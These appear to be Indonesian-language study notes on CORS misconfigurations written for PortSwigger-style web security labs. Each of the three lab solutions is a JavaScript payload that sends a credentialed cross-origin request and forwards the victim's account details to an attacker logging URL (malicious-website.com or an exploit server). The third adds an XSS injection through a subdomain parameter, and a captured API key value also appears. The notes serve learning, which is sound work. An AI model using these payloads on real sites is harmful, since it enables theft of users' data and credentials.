 
## Apa itu CORS (berbagi sumber daya lintas asal)?

Berbagi sumber daya lintas asal (CORS) adalah mekanisme browser yang memungkinkan akses terkontrol ke sumber daya yang terletak di luar domain tertentu. Hal ini memperluas dan menambah fleksibilitas pada kebijakan asal yang sama (SOP). Namun, hal ini juga memberikan potensi serangan lintas domain, jika kebijakan CORS situs web dikonfigurasi dan diterapkan dengan buruk. CORS bukanlah perlindungan terhadap serangan lintas asal seperti pemalsuan permintaan lintas situs (CSRF).

![[Pasted image 20240911150255.png]]

## Same-origin policy

The same-origin policy is spesifikasi lintas asal yang membatasi kemampuan situs web untuk berinteraksi dengan sumber daya di luar domain sumber. Kebijakan asal yang sama ditetapkan beberapa tahun yang lalu sebagai respons terhadap interaksi lintas domain yang berpotensi berbahaya, seperti satu situs web mencuri data pribadi dari situs lain. Biasanya memungkinkan suatu domain untuk mengeluarkan permintaan ke domain lain, tetapi tidak untuk mengakses tanggapannya.


## Kerentanan yang timbul dari masalah konfigurasi CORS

Banyak situs web modern menggunakan CORS untuk mengizinkan akses dari subdomain dan pihak ketiga tepercaya. Penerapan CORS mereka mungkin mengandung kesalahan atau terlalu lunak untuk memastikan semuanya berfungsi, dan hal ini dapat mengakibatkan kerentanan yang dapat dieksploitasi.

---

**Solve LAB 1**

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET', 'YOUR-LAB-ID.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = '/log?key=' + this.responseText;
    }
</script>
```

## Header ACAO yang dihasilkan server dari header Asal yang ditentukan klien

Beberapa aplikasi perlu menyediakan akses ke sejumlah domain lain. Mempertahankan daftar domain yang diizinkan memerlukan upaya berkelanjutan, dan kesalahan apa pun berisiko merusak fungsionalitas. Jadi beberapa aplikasi mengambil cara mudah untuk secara efektif mengizinkan akses dari domain lain.

Salah satu cara untuk melakukannya adalah dengan membaca header Asal dari permintaan dan menyertakan header respons yang menyatakan bahwa asal permintaan diperbolehkan. Misalnya, pertimbangkan aplikasi yang menerima permintaan berikut:

`GET /sensitive-victim-data HTTP/1.1 Host: vulnerable-website.com Origin: https://malicious-website.com Cookie: sessionid=...`

Kemudian merespons dengan:

`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://malicious-website.com Access-Control-Allow-Credentials: true ...`

Header ini menyatakan bahwa akses diperbolehkan dari domain yang meminta ( `malicious-website.com`) dan permintaan lintas asal dapat menyertakan cookie ( `Access-Control-Allow-Credentials: true`) dan akan diproses dalam sesi.

Karena penerapannya mencerminkan asal muasal yang sewenang-wenang dalam `Access-Control-Allow-Origin` header, ini berarti domain mana pun dapat mengakses sumber daya dari domain yang rentan. Jika respons berisi informasi sensitif seperti kunci API atau token CSRF, Anda dapat mengambilnya dengan menempatkan skrip berikut di situs web Anda:

```js
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='//malicious-website.com/log?key='+this.responseText; };
```


**Solve LAB 2**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>

var req = new XMLHttpRequest();

req.onload = reqListener;

req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);

req.withCredentials = true;

req.send();

function reqListener() {

location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);

};

</script>"></iframe>
```

apiKey: YyvOvRrRIoGTMRP31bg4ntBhy5hZZKxj

## Memanfaatkan XSS melalui hubungan kepercayaan CORS - Lanjutan

Mengingat permintaan berikut:

`GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: https://subdomain.vulnerable-website.com Cookie: sessionid=...`

Jika server merespons dengan:

`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true`

Kemudian penyerang yang menemukan kerentanan XSS aktif `subdomain.vulnerable-website.com` bisa menggunakannya untuk mengambil kunci API, menggunakan URL seperti:

`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`


**Solve LAB 3**

```js
<script>
    document.location = "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>" +
        "var req = new XMLHttpRequest();" +
        "req.onload = reqListener;" +
        "req.open('GET', 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails', true);" +
        "req.withCredentials = true;" +
        "req.send();" +
        "function reqListener() {" +
        "    location = 'https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=' + this.responseText;" +
        "};" +
        "</script>&storeId=1";
</script>
```